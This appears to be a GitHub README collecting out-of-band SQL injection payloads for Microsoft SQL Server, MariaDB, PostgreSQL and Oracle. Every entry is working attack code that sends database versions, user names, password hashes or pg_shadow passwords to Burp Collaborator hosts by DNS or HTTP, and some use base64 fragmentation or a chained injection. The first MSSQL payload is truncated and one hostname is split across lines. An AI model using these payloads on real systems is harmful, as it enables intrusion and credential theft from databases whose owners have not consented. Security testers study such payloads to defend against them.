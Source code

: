 # OOB-SQLi
# DNS Based Exfiltration

1. Microsoft SQL database

DECLARE @a varchar(1024); DECLARE @b varchar(1024); SELECT @a = (SELECT system_user);   SELECT @b = (SELECT DB_Name()); EXEC('master..xp_dirtree

2. MariaDB

select load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',(SELECT+password),'.','n5tgzhrf768l71uaacqu0hqlocu2ir.burpcollaborator.net\\vfw')) 

3. PostgreSQL database

DROP TABLE IF EXISTS table_output; CREATE TABLE table_output(content text); CREATE OR REPLACE FUNCTION temp_function()RETURNS VOID AS $$ DECLARE exec_cmd TEXT; DECLARE query_result_version TEXT; DECLARE query_result_user TEXT; DECLARE query_result_password TEXT; BEGIN SELECT INTO query_result_version (SELECT current_setting('server_version')); SELECT INTO query_result_user (SELECT usename FROM pg_shadow); SELECT INTO query_result_password (SELECT passwd FROM pg_shadow); exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result_version||'.'||query_result_user||'.'||query_result_password||E'.n4sg4c5uh0t38fdncn1496qg47axym.burpcollaborator.net\\\\foobar.txt\''; EXECUTE exec_cmd; END; $$ LANGUAGE plpgsql SECURITY DEFINER; SELECT temp_function();

4. Oracle database

SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;

# HTTP Based Exfiltration

1. Oracle database

SELECT UTL_HTTP.request('http://fexvz59jd1088tjhf7y6z0onkeq4et.burpcollaborator.net/'||'?version='||(SELECT version FROM v$instance)||'&'||'user='||(SELECT user FROM dual)||'&'||'hashpass='||(SELECT spare4 FROM sys.user$ WHERE rownum=1)) FROM dual;

# Advanced OOB SQL Injection

1. Fragmentation + Encoding

DECLARE @d varchar(1024); DECLARE @T varchar(1024); SELECT @d = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as varbinary(max)), 1,LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2) FOR XML PATH(''), BINARY BASE64); SELECT @T = (SELECT REPLACE(@d, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.ophd0voy
beiseglonirht1morfx5lu.burpcollaborator.net\egg$"');                 

DECLARE @e varchar(1024); DECLARE @T varchar(1024); SELECT @e = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as varbinary(max)), LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2, LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))) FOR XML PATH(''), BINARY BASE64); SELECT @T = (SELECT REPLACE(@e, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.ophd0voy
beiseglonirht1morfx5lu.burpcollaborator.net\egg$"');                 

2. Chain of SQL Injection (Oracle DB + MariaDB)

SELECT UTL_HTTP.request('http://192.168.220.130/sqli.php?id=1%27%2b%28%28select%20load%5ffile%28CONCAT%28%27%5c%5c%5c%5c%27%2c%28SELECT%2buser%29%2c%27%2e%27%2c%28SELECT%2bpassword%29%2c%27%2e%27%2c%27jobuvs89ieon1z3f1qjkc0phk8qyen%2eburpcollaborator%2enet%5c%5cvfw%27%29%29%29%29%2b%27') FROM dual;                                                           
